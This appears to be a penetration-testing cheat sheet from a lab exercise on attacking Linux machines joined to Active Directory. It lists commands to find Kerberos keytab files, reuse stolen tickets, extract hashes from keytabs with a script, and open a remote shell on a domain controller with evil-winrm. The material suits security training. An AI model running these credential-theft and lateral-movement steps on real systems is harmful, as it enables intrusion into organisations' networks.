 # Linux AD Integration


## Check If Linux Machine is Domain Joined

```bash
$ realm list
$ ps -ef | grep -i "winbind\|sssd"

```

## Search Keytab

```bash
$ find / -name *.keytab -ls 2>/dev/null
$ find / -name *keytab* -ls 2>/dev/null
```

`/etc/krb5.keytab --> linux$@manesec.com`

## Current Ticket

```bash
$ env | grep -i krb5
$ klist 
$ klist -k -t 
```


## Use Ticket

```bash
$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/xxx/carlos.keytab
$ smbclient //dc01/carlos -k -c ls

$ export KRB5CCNAME=xxx.ccache
```

## Extract hash from keytab

```bash
$ python3 /opt/keytabextract.py /opt/xxx/carlos.keytab 
$ su - carlos@inlanefreight.htb
```

## evil-winrm with Kerberos

```bash
$ sudo apt-get install krb5-user -y
$ sudo dpkg-reconfigure krb5-config
$ cat /etc/krb5.conf
[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

<SNIP>

$ evil-winrm -i dc01 -r inlanefreight.htb
```